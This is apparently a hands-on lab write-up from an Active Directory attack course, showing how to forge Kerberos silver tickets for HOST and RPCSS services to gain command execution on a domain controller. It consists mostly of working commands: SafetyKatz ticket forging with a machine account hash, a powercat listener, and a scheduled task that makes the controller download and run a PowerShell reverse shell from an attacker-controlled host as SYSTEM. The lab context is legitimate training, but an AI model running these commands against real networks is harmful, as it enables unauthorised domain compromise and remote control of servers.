





# Hands-on 15: Silver Tickets

- [Hands-on 15: Silver Tickets](#hands-on-15-silver-tickets)
  - [Task](#task)
  - [HOST Service](#host-service)
  - [WMI Service](#wmi-service)

---

## Task

During the additional lab time, try to get command execution on the domain controller us-dc by creating silver ticket for: 
– HOST service 
– WMI

<br/>

---

## HOST Service

Recall the result in [Hands-on 14](l14-GoldenTicket.md)

```
RID  : 000003e8 (1000)
User : US-DC$
LM   :
NTLM : f4492105cb24a843356945e45402073e
```

<br/>

Use `SafetyKatz.exe` to create the silver ticket for `HOST` service:

```
C:\AD\Tools\SafetyKatz.exe "kerberos::golden
/User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /target:us-dc.us.techcorp.local /service:HOST /rc4:f4492105cb24a843356945e45402073e /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

  

<br/>

On the local machine, make a copy of `Invoke-PowerShellTcp.ps1` as `Invoke-PowerShellTcpEx.ps1`, with the following command added in the end:

```
reverse -reverse -IPAddress 192.168.100.64 -Port 443
```

  

<br/>

Launch a netcat listner using powercat.ps1:

```
C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat

. C:\AD\Tools\powercat.ps1

powercat -l -v -p 443 -t 1000
```

<br/>

Use `python -m SimpleHTTPServer 80` to serve the tool and script.

<br/>

Using the session with the Silver Ticket, create a scheduled task:

```
schtasks /create /S us-dc.us.techcorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck64" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.64/Invoke-PowerShellTcpEx.ps1''')'"
```

<br/>

Trigger the scheduled task on `US-DC`:

```
schtasks /Run /S us-dc.us.techcorp.local /TN "STCheck64"
```

  

<br/>

---

## WMI Service

According to https://adsecurity.org/?p=2011, to obtain WMI service, we need 2 silver tickets:

- HOST
- RPCSS

<br/>

Request one more silver ticket - RPCSS:

```
C:\AD\Tools\SafetyKatz.exe "kerberos::golden
/User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /target:us-dc.us.techcorp.local /service:RPCSS /rc4:f4492105cb24a843356945e45402073e /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

  

<br/>

Try to get remote process of `US-DC`:

```
Get-WmiObject -Query "select * from win32_service where name='WinRM'" -ComputerName us-dc.us.techcorp.local |
  Format-List -Property PSComputerName, Name, ExitCode, Name, ProcessID, StartMode, State, Status
```

  

<br/>
